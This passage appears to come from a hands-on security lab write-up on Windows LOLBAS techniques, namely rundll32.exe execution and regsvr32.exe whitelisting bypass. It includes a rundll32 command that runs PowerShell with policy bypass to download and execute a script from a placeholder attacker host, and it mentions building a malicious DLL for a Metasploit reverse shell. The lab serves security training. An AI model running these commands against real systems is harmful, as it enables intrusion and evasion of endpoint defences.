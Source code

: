 Now let's try to execute a `calc.exe` binary as proof of concept using the `rundll32.exe` binary:

```
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

In the previous command, we used the `rundll32.exe` binary that embeds a JavaScript component, `eval()`, to execute the `calc.exe` binary, a Microsoft calculator.

As we mentioned previously, we can also execute PowerShell scripts using the `rundll32.exe`. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using `rundll32.exe`.

```
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

As a result of the previous execution, a copy of the `script.ps1` downloaded into memory on the target machine.

### Answer the questions below

* Read the above and practice these tools on the attached machine!

## Task 6 - Application Whitelisting Bypasses

### Bypassing Application Whitelisting

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. This task focuses on LOLBAS examples that are used to bypass the Windows application whitelisting.

### Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. The regsvr.exe binary is located at:

* C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
* C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, `regsvr32.exe` binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting. According to [Red Canary](https://redcanary.com/) reports, the `regsvr32.exe` binary is the third most popular ATT&CK technique. Adversaries leverage `regsvr32.exe` to execute native code or scripts locally or remotely. The technique used in the `regsvr32.exe` uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting. 

Let's try to apply this technique in real life. First, we need to create a malicious `DLL` file using msvenom and set up our  Metasploit listener to receive a reverse shell. Note that we will be creating a malicious file that works for 32bit operating systems. We will be using the `regsvr32.exe` Application Whitelisting Bypass technique to run a command on a target system.

